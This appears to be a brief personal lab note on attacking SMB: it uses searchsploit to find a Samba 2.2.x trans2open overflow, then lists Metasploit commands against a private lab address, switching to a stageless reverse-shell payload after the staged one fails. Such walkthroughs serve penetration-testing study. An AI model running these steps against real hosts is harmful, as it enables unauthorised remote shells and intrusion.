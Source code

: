 # Attacking smb
---
- `searchsploit smb`
	- `Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)`
- `msfconsole`
	- search trans2open
	  ![[Pasted image 20250324161227.png]]
	- `use 1` => We know OS from nmap scan and http scan results
	- `set rhosts 192.168.157.128`
	- `exploit`
	- ==Exploit fails, as it is using staged payload by default==
	- `set payload linux/x86/shell_reverse_tcp` => stageless payload
	- `run` => Shell spawns successfully